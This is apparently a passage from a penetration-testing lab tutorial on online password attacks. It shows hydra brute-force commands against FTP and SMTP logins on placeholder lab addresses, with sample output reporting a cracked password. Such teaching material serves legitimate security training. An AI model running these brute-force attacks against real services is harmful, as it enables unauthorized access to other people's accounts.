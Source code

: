 Note that you will also need to generate a username wordlist as shown in Task 3: Password Profiling #1 for the online attack questions.

## Online password attacks

***

Online password attacks involve guessing passwords for networked services that use a username and password authentication scheme, including services such as HTTP, SSH, VNC, FTP, SNMP, POP3, etc. This section showcases using hydra which is a common tool used in attacking logins for various network services.

#### Hydra

Hydra supports an extensive list of network services to attack. Using hydra, we'll brute-force network services such as web login pages, FTP, SMTP, and SSH in this section. Often, within hydra, each service has its own options and the syntax hydra expects takes getting used to. It's important to check the help options for more information and features.

#### FTP

In the following scenario, we will perform a brute-force attack against an FTP server. By checking the hydra help options, we know the syntax of attacking the FTP server is as follows:

```shell-session
user@machine$ hydra -l ftp -P passlist.txt ftp://10.10.x.x
```

-l ftp we are specifying a single username, use-L for a username wordlist

-P Path specifying the full path of wordlist, you can specify a single password by using -p.

ftp://10.10.x.x the protocol and the IP address or the fully qualified domain name (FDQN) of the target.

Remember that sometimes you don't need to brute-force and could first try default credentials. Try to attack the FTP server on the attached VM and answer the question below.

#### SMTP

Similar to FTP servers, we can also brute-force SMTP servers using hydra. The syntax is similar to the previous example. The only difference is the targeted protocol. Keep in mind, if you want to try other online password attack tools, you may need to specify the port number, which is 25. Make sure to read the help options of the tool.

```shell-session
user@machine$ hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v 
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:41:08
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking smtp://10.10.x.x:25/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[25][smtp] host: 10.10.x.x   login: email@company.xyz password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```
